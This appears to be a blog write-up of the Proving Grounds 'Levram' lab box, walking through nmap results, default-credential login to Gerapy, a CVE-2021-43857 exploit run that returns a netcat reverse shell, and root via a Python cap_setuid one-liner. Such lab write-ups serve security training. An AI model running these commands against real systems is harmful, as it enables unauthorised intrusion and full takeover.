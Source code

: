 ```yaml
---
title: "Proving grounds Play: Levram"
layout: post
date: 2023-10-07 02:00
categories: writeup
---
```


Proving grounds Practice - Levram CTF writeup.

## Nmap

```text
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9bc8f013f855df95cd9fbb615a01e74 (ECDSA)
|_  256 53d97f3d228afd5798fe6b1a4cac7967 (ED25519)
8000/tcp open  http-alt WSGIServer/0.2 CPython/3.10.6
|_http-title: Gerapy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Date: Sat, 07 Oct 2023 11:16:52 GMT
|     Server: WSGIServer/0.2 CPython/3.10.6
|     Content-Type: text/html
|     Content-Length: 9979
|_    Vary: Origin
```

## 8000/tcp open  http-alt WSGIServer/0.2 CPython/3.10.6

http://192.168.211.24:8000/#/login

![img](/assets/images/CTF/Proving_Grounds/Levram/web.png)

The application uses default credentials `admin:admin` and it is vulnerable to [Gerapy 0.9.7 - Remote Code Execution (RCE) (Authenticated)](https://www.exploit-db.com/exploits/50640). 

> **Note:**
>
> If the application doesn't have any projects the exploit will throw an error, a project must exist for the exploit to work properly.

## Initial Foothold

Login to the application using the credentials and create a new project. Now run the exploit and ensure the netcat listener is running.

**Exploitation**

```sh
naveenj@hackerspace:|07:21|~/proving_grounds/Levram/exploit$ python2 exploit.py -t 192.168.211.24 -p 8000 -L 192.168.45.193 -P 4444
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
[*] Getting the project list
[*] Found project: test
[*] Getting the ID of the project to build the URL
('[*] Found ID of the project: ', 1)
[*] Setting up a netcat listener
listening on [any] 4444 ...
[*] Executing reverse shell payload
[*] Watchout for shell! :)
```

**Reverse Shell Obtained**

```sh
naveenj@hackerspace:|07:20|~/proving_grounds/Levram/exploit$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.193] from (UNKNOWN) [192.168.211.24] 42252
bash: cannot set terminal process group (845): Inappropriate ioctl for device
bash: no job control in this shell
app@ubuntu:~/gerapy$
```

**Initial Foothold Obtained**

## Privilege Escalation

Check the extended capabilities in the system.

```sh
app@ubuntu:~/gerapy$ getcap -r / 2/dev/null    #get the extended capabilites
/usr/bin/python3.10 cap_setuid=ep   #exploitable
```

### Exploitation

```sh
app@ubuntu:/tmp$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id
uid=0(root) gid=1000(app) groups=1000(app)
```

**Root Obtained**

## References

- [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example)
- [https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).